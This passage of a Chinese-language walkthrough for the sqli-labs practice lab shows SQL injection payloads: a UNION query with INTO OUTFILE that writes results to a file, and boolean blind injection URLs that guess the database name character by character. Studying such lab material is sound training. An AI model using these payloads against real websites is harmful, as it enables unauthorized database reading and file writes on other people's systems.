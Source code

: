 构造闭合字符：`'))`

payload：

```sql
?id=1')) union select 1,2,database() into outfile  "F:/res.txt" -- s
注意：
"F:/res.txt" 为文件输出路径 且当前路径没有该文件
```

![](G:\Roaming\marktext\images\图1-sql.png)

##### 第8关

类型：字符型+布尔盲注

构造闭合符号：`'`

###### 流程

1. 首先判断注入点，既不能联合也不能报错

2. 尝试布尔盲注，首先判断当前数据库长度
   
   ```sql
   二分法判断长度
   http://localhost:7036/sqli-labs/Less-8/?id=1' and 
   length(database())>10 -- s    //返回false  0-10
   
   http://localhost:7036/sqli-labs/Less-8/?id=1' and 
   length(database())>5 -- s     //返回true   5-10
   
   http://localhost:7036/sqli-labs/Less-8/?id=1' and 
   length(database())>7 -- s     //返回true   7-10
   
   http://localhost:7036/sqli-labs/Less-8/?id=1' and 
   length(database())>8 -- s //返回false
   
   http://localhost:7036/sqli-labs/Less-8/?id=1' and 
   length(database())=8 -- s //返回true 确定长度为8
   ```

3. 判断库名具体字符
   
   ```sql
   判断第1个字符（二分法，依次判断ascii码（33-127）） 方法与步骤2一致
   http://localhost:7036/sqli-labs/Less-8/
   ?id=1' and ascii(substr(database(),1,1))=115 -- s
   判断第2个字符
   http://localhost:7036/sqli-labs/Less-8/
   ?id=1' and ascii(substr(database(),2,1))=115 -- e 
   ... ...
   直到判断库名为8个字符的security
   ```

4. 判断表长度（方法同上 二分法）
   